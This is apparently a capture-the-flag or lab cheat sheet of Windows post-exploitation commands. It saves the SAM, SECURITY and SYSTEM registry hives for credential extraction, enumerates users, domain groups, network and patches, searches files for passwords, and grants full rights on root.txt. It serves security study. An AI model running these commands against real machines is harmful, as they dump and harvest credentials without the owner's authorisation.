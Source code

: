 # **basic commands**

hostname && type proof.txt && ipconfig /all  
  
  
  
  
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save  
C:\> reg.exe save hklm\security c:\windows\temp\security.save  
C:\> reg.exe save hklm\system c:\windows\temp\system.save  
  
# Basics  
systeminfo  
hostname  
  
# Who am I?  
whoami  
echo %username%  
  
# What users/localgroups are on the machine?  
net users  
net localgroups  
  
# More info about a specific user. Check if user has privileges.  
net user user1  
  
# View Domain Groups  
net group /domain  
  
# View Members of Domain Group  
net group /domain <Group Name>  
  
# Firewall  
netsh firewall show state  
netsh firewall show config  
  
# Network  
ipconfig /all  
route print  
arp -A  
  
# How well patched is the system?  
wmic qfe get Caption,Description,HotFixID,InstalledOn  
  
#

### Search for them

  
  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
  
#Find all those strings in config files.  
dir /s *pass* == *cred* == *vnc* == *.config*  
  
# Find all passwords in all files.  
findstr /spin "password" *.*  
findstr /spin "password" *.*  
  
icacls root.txt /grant alfred:F